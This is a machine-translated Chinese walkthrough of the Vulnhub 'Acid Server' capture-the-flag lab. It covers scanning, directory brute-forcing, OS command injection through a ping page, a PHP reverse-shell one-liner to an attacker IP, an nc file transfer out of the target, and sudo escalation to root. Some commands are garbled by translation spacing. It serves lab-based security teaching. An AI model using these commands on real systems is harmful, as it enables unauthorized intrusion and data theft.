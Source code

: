 # ACID:服务器(Vulnhub CTF 漫游)

> 原文：<https://infosecwriteups.com/acid-server-vulnhub-ctf-walkthrough-7630ce8eb104?source=collection_archive---------3----------------------->

虚拟机的名字是我们今天要解决的“ **Acid Server** ”。这是一个 Boot2Root 虚拟机。这是一个基于网络的虚拟机。

> 【https://www.vulnhub.com/entry/acid-server,125/】下载链接:
> 
> **目标:**将权限升级到 root 并获取旗帜。

# 渗透方法:

*   网络扫描(arp 扫描，Nmap)
*   目录暴力(gobuster)
*   利用网页上的操作系统命令漏洞获得反向外壳
*   导入 python 一行程序以获得交互式 shell
*   搜索并下载 pcap 文件
*   从 pcap 文件中窃取密码(Wireshark)
*   进入 shell 进行权限提升
*   切换用户(su)
*   获取 root 访问权限并捕获标志

1.  先从找目标开始。

> **arp-scan -l**

![](img/44954eeb95ab7d4192f2c2918cc5fa89.png)

我们的目标是 **192.168.225.140**

2.现在，启动 nmap 扫描端口。

> **nmap-p--A-T4 192 . 168 . 225 . 140**

![](img/3cf670f7e12bcdbdb79e08cdb8c3fa84.png)

Nmap 结果显示只有一个开放端口，即 **33447** ，提供 **HTTP** 的服务。请注意，端口 80 没有打开，这意味着如果我们想在浏览器中打开这个 IP 地址，那么我们必须使用端口号，因为默认情况下它不会打开。所以现在使用端口号 **33447** 打开网页。

![](img/7d7cb59183cf9f457de2e6ae0fc189db.png)

从上图我们可以看到，页面上只有一个标题和一段引文；没有别的，但是如果你看浏览器上的标签，它说“**/挑战**”。这可以是一个目录。让我们打开它。

![](img/6dd7da8c8cf0d93d1ba809a420d033b7.png)

我们得到了这个登录页面。

3.让我们试试 gobuster，用小字典(/usr/share/word lists/dirbuster/directory-list-2.3-medium . txt)了解一下这个目录。

> **gobuster dir-u**[**http://192 . 168 . 225 . 140:33447/Challenge**](http://192.168.225.140:33447/Challenge)**-x PHP-w/usr/share/word lists/dirbuster/directory-list-2.3-medium . txt-t 100 2>/dev/null**

在这里，我使用**-x php "**来搜索带有 PHP 扩展名的文件。

**注意:" 2**>/**dev**/**null "***会过滤掉错误，这样就不会输出到你的控制台。*

*![](img/5d313cfe43b41f3b9c9af8da7a4743d7.png)*

*我试了每一个目录，但唯一的**cake.php**看起来有用。让我们在浏览器中打开它。*

*![](img/0f0e2ef988f4b1d59775ef3b49577343.png)*

*当你打开 cake.php，页面上写着**“啊，汉……任重而道远..哥们:-)”。**但是仔细看你会发现 **/Magic_Box** 写在浏览器标签上。就像/挑战一样打开吧。*

*![](img/f2fbc087cacb97163d250cfe9c8e4df8.png)*

*打开后，这个页面说我们没有权限访问它。*

*4.好吧！那我们就在这个目录上试试 gobuster 吧。*

> ***gobuster dir-u**[**http://192 . 168 . 225 . 140:33447/Challenge/Magic _ Box**](http://192.168.225.140:33447/Challenge/Magic_Box)**-x PHP-w/usr/share/word lists/dirbuster/directory-list-2.3-medium . txt-t 100 2>/dev/null***

*![](img/800c27c9dc67797828593b030ea83193.png)*

*在所有目录中，唯一的**command.php**看起来很有用。让我们在浏览器中打开它。*

*![](img/53119d8aba5c4cc1863167ba265578b3.png)*

*打开后，你会发现一个 **ping** 入口，这意味着你可以从这里 ping 任何 IP 地址。尝试 ping 任何 IP，并在页面源上确认结果。*

*这表明有可能进行**操作系统命令注入**，为了确保万无一失，让我们运行任意命令，如“； **ls"** 如下图所示。*

*![](img/43aba6c081b3a12c7440a6c601d3746b.png)*

*在页面源上，您可以确认 **ls** 命令的结果。*

*![](img/e5146d8adf640910b6e1b0c0e2eb70c9.png)*

*5.正如页面标题所说的**“逆功夫”**，是对**逆壳**的暗示。因此，没有任何延迟，在攻击机器上运行一个监听器 **(nc -nvlp 8000)** ，并在页面中输入以下命令来获取反向 shell。*

> ***PHP-r ' $ sock = fsockopen(" 192 . 168 . 225 . 139 "，8000)；exec("/bin/sh-I<&3>&3 2>&3 ")；"***

*用您的端口替换 IP 和侦听器端口。*

*![](img/81e4c25ed8230a1dcfc57c0b71e08c52.png)*

*我们用***www-data***user 得到 shell。另外，这是一个非交互式的 shell，我们需要一个交互式的。如果没有交互，操作系统就无法询问密码，su 也无法工作。*

*6.运行以下命令获取交互式 shell。*

> ***python-c ' import pty；pty.spawn("/bin/bash")'***

*![](img/ca2c7e380b0e9c82f6576fd05bc4dd77.png)*

*让我们开始检查系统中的文件。我在系统根目录下发现了一个不寻常的目录“**s . bin*”***。它包含一个文件“**investigate.php*”***，其内容要求我们像一个调查员一样抓住罪犯。*

*![](img/206c59bceead615cfea02a88ca14e3b5.png)*

*在进入 **/home** 目录后，我找到了一个名为“**萨曼**的本地用户。这可能是一个有用的用户，但我们没有密码登录。让我们试着找到密码。*

*![](img/c72500d2346978093c3e9c463e10e9e5.png)*

*进一步查看文件系统，我发现在 **/sbin** 目录中有一个目录 **"raw_vs_isi"** 。它包含一个 **pcap** 文件 **"hint.pcapng"** *。**

*7.用 **netcat** 把这个文件传输到你自己的攻击机器上:*

> ***在攻击机上:** nc -lp 1234 > pcap*
> 
> ***在目标机器上:**NC 192 . 168 . 225 . 139 1234<hint . PCA png*

*用 Wireshark 打开这个文件后，我在 TCP 流中发现了一个对话。只需**右键点击**这些被过滤的数据包，然后点击**跟随**选项，然后选择 **TCP 流**。*

*![](img/7d9d3831d43760fe63823c723f08f652.png)**![](img/5180153a08c3fbb28057906ab4ca9644.png)*

*在对话中，其中一人说**“Saman，现在他的别名是 1337 hax0r”**，这意味着 **saman** 是用户名(也可以在/home 目录中找到)，而 **1337hax0r** 可以是密码。让我们试一试。*

*![](img/9a1a19e70c751e8135b64e88b255006b.png)*

*我们现在以 saman 的身份登录。这里，“**sudo-l”**命令的结果告诉我们，我们可以作为 root 用户运行任何命令。*

*8.让我们尝试将用户切换到根用户。*

> ***须藤素***

*![](img/5829b61071d201797e04a18ec73a2760.png)*

*所以我们得到了根带着**祝贺**的横幅。*

*9.我们还是得找到旗子。从根目录的主目录开始。它只包含一个文件***flag . txt****。**

> ***猫旗. txt***

*![](img/b78eae39907349c5b9cc2f10b7e1d9a3.png)*

*打开文件后，我们会收到一条消息，提示我们成功完成了挑战。*

***注意:**从第一个网页开始，有多种方法可以完成这项挑战。鼓励读者尝试用其他方法找到旗子。*

# *我希望，这篇文章能帮助你轻松解决这个 CTF，你一定学到了一些新东西。*

# *敬请关注更多此类帖子！！！*